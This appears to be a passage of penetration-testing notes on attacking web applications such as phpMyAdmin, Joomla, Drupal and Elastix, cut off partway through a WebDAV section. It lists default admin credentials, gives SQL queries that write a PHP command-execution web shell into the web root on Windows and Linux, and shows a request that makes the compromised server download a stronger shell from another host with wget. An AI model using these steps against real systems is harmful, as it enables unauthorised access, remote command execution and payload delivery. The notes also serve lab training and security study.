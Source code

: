 		http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/

		neo-security.xml and password.properties
	Drupal

		droopescan
	Elastix

		Full of vulnerabilities. The old versions at least.

		http://example.com/vtigercrm/ default login is admin:admin

		You might be able to upload shell in profile-photo.
	Joomla
		joomscan

	Phpmyadmin

		Default credentials

		root <blank>
		pma <blank>

		If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

		You go to:

		http://192.168.1.101/phpmyadmin/

		Then click on SQL.

		Run SQL query/queries on server "localhost":

		From here we can just run a sql-query that creates a php script that works as a shell

		So we add the following query:

		SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

		# For linux
		SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"

		The query is pretty self-explanatory. Now you just visit 192.168.1.101/shell.php?cmd=ipconfig and you have a working web-shell. We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

	Download a better shell

		On linux-machines we can use wget to download a more powerful shell.

		?cmd=wget%20192.168.1.102/shell.php

		On windows-machines we can use tftp.


	Webdav

		Okay so webdav is old as hell, and not used very often. It is pretty much like ftp. But you go through http to access it. So if you have webdav installed on a xamp-server you can access it like this:
